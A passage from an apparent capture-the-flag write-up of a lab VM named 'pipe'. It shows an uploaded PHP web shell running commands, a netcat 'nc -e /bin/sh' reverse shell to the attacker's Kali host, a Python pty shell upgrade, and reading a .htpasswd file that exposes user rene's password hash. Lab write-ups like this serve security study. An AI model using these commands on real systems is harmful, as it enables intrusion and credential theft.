 <p>It works, refreshing the <b>scriptz</b> directory showed that a new file appeared! Let's test it. </p>

{% highlight text %}
http://192.168.56.103/scriptz/shell.php?cmd=whoami
www-data

http://192.168.56.103/scriptz/shell.php?cmd=uname%20-a
Linux pipe 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt11-1 (2015-05-24) x86_64 GNU/Linux
{% endhighlight %}

<p>Great, it's now possible to inject commands. After looking for ways to reverse the shell, I found that <b>netcat</b> was installed, which will make it much easier. </p>

{% highlight text %}
http://192.168.56.103/scriptz/shell.php?cmd=nc%20-e%20/bin/sh%20192.168.56.102%201234

root@kali:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.103] 49960
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}

<p>And we have the shell. We can use this Python trick to spawn <b>bash</b> shell. </p>

{% highlight bash %}
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@pipe:/var/www/html/scriptz$
{% endhighlight %}

<p>Everything is working so far. But, what was the password during the authentication?  </p>

{% highlight bash %}
www-data@pipe:/var/www/html/scriptz$ cd ../
cd ../
www-data@pipe:/var/www/html$ ls -la
ls -la
total 36
drwxr-xr-x 4 www-data www-data 4096 Jul  9  2015 .
drwxr-xr-x 3 root     root     4096 Jul  5  2015 ..
-rw-r--r-- 1 www-data www-data  137 Jul  6  2015 .htaccess
-rw-r--r-- 1 www-data www-data   43 Jul  6  2015 .htpasswd
drwxr-xr-x 2 www-data www-data 4096 Jul  6  2015 images
-rw-r--r-- 1 www-data www-data 2801 Jul  9  2015 index.php
-rw-r--r-- 1 www-data www-data  150 Jul  6  2015 info.php
-rw-r--r-- 1 www-data www-data  474 Jul  6  2015 log.php
drwxr-xr-x 2 www-data www-data 4096 Jul 30 06:00 scriptz
www-data@pipe:/var/www/html$ cat .htpasswd
cat .htpasswd
rene:$apr1$wfYjXf4U$0ZZ.qhGGrtkOxvKr5WFqX/
{% endhighlight %}

<p>As it wasn't essential, I decided to find it as they may sometimes hold valuable information. But after looking at <b>/etc/passwd</b> I noticed account using the same name <b>rene</b>. Let's check <strike>her</strike>  <a href="https://en.wikipedia.org/wiki/Ren%C3%A9">his</a> home directory. </p>
